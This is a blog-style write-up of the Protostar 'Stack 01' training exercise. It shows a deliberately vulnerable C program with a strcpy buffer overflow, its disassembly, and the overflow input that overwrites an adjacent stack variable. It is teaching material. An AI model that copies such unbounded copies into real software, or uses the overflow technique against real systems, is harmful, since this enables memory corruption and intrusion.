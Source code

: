 ```yaml
---
layout:     post
title:      "Protostar - Stack 01"
description: "In this challenge we're going to use the previous technique of modyfing variables on the stack in order to overwrite the value into the desired one."
date:       2018-03-31 0:00:00
author:     "W3ndige"
permalink: /:title/
category: "Exploit Exercises"
---
```


Let's start by looking at the source code of the challenge.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
{% endhighlight %}

Firstly, we have a `volatile int modified` variable statement. This statement tells the compiler that it should not optimize it by any means. This means that this variable is open to modify somewhere else during the execution and the compiler is forced to reload the variable every time. Read more at [Wikipedia](https://en.wikipedia.org/wiki/Volatile_(computer_programming)).

After that we're going to copy the contents of `argv[1]` into buffer. Notice how we're using `strcpy()` function that won't care about the size of the destination buffer, we can simply copy 1000 bytes into 64 bytes buffer resulting in buffer overflow. That's why we should be using `strncpy()` function that takes another argument - number of bytes to copy.

In last section of code we have `if(modified == 0x61626364)`. As the `modified` variable is equal to `0` we have to modify it with a previously detected buffer overflow vulnerability. But firstly, let's take a look at the disassembly of this program.

{% highlight assembly %}
0x08048464 <main+0>:	push   ebp
0x08048465 <main+1>:	mov    ebp,esp
0x08048467 <main+3>:	and    esp,0xfffffff0
->0x0804846a <main+6>:	sub    esp,0x60
0x0804846d <main+9>:	cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:	jne    0x8048487 <main+35>
0x08048473 <main+15>:	mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:	mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:	call   0x8048388 <errx@plt>
->0x08048487 <main+35>:	mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:	add    eax,0x4
0x08048495 <main+49>:	mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:	mov    DWORD PTR [esp+0x4],eax
->0x0804849b <main+55>:	lea    eax,[esp+0x1c]
0x0804849f <main+59>:	mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:	call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:	mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:	cmp    eax,0x61626364
0x080484b0 <main+76>:	jne    0x80484c0 <main+92>
0x080484b2 <main+78>:	mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:	call   0x8048398 <puts@plt>
0x080484be <main+90>:	jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:	mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:	mov    eax,0x80485f3
0x080484c9 <main+101>:	mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:	mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:	call   0x8048378 <printf@plt>
0x080484d5 <main+113>:	leave  
0x080484d6 <main+114>:	ret    
{% endhighlight %}

First thing what we can see is that in this line `DWORD PTR [esp+0x5c],0x0`, value `0x0` is moved into stack with offset 0x5c. That's the `modified` variable. At the next arrow we can see `lea    eax,[esp+0x1c]`, so the variable passed to the parameter passed to the function `strcpy()` is located at `esp` plus offset `0x1c`. That's our buffer. We can also check that by substracting both addressed. The difference should be the size of buffer, so 64 bytes.

Let's take a look at this simple stack representation, showing the local variables that are put onto the stack.

{% highlight python %}
>>> 0x5c - 0x1c
64
{% endhighlight %}

![Awesome Buffer Sketch](/img/protostar/awesome-buffer-sketch.jpg){:class="img-responsive center-block"}

If we supply the program with number of elements smaller than 64, then it will run without smallest problem.

{% highlight bash %}
$ ./stack1 aaaa
Try again, you got 0x00000000
{% endhighlight %}

![Awesome Buffer Sketch](/img/protostar/awesome-buffer-not-filled.jpg){:class="img-responsive center-block"}

But what will happen if we overflow the buffer with 2 'A' letters bigger than the allocated size, so in this case 64 'A' letters.

{% highlight python %}
>>> 'A' * 66
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
{% endhighlight %}

{% highlight bash %}
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try again, you got 0x00004141
{% endhighlight %}

As you can see, our `modified` variable gets overwritten as it's the next variable on the stack.

![Awesome Buffer Sketch](/img/protostar/awesome-buffer-overflowed.jpg){:class="img-responsive center-block"}

Now we have to make sure that this check `modified == 0x61626364` is correct. Firstly let's convert them to characters.

{% highlight python %}
>>> chr(0x61) + chr(0x62) + chr(0x63) + chr(0x64)
'abcd'
{% endhighlight %}

But we have to remeber that values in memory are stored in little endian. Read more [here](https://en.wikipedia.org/wiki/Endianness). Basically we have to revert the values into `dcba`.

{% highlight bash %}
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
{% endhighlight %}
